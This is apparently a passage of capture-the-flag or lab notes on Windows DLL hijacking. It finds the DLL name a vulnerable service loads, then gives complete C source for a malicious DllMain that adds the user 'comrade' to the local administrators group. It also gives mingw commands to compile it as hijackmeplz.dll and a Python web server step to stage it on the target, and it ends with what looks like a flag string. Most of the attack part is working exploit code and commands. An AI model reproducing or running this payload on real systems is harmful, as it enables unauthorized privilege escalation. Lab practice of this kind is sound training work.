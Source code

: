 What is the name of the DLL that is supposed to be loaded, by the vulnerable service?

    1. follow filepath of memory status
    2. Open *.c file in wordpad
    3. search for dll --> hijackmeplz

7.

        1. edit bad.c to create admin rights for comrade
        ```
        #include <windows.h>

int execCommand()
{
 WinExec("cmd /C net localgroup administrators comrade /add", 1);
 return 0;
}
BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
 execCommand();
 return 0;
}

```
2. make dll
i686-w64-mingw32-g++ -c bad.c -o bad.o

i686-w64-mingw32-g++ -shared -o hijackmeplz.dll bad.o -Wl,--out-implib,bad.a

3. open webserver on lin-ops to pull dll onto windows machine

python -m SimpleHTTPServer 8000

4. pull it down and run it on windows

5. restart and open --> zdZZstAKFrzck126MD2H

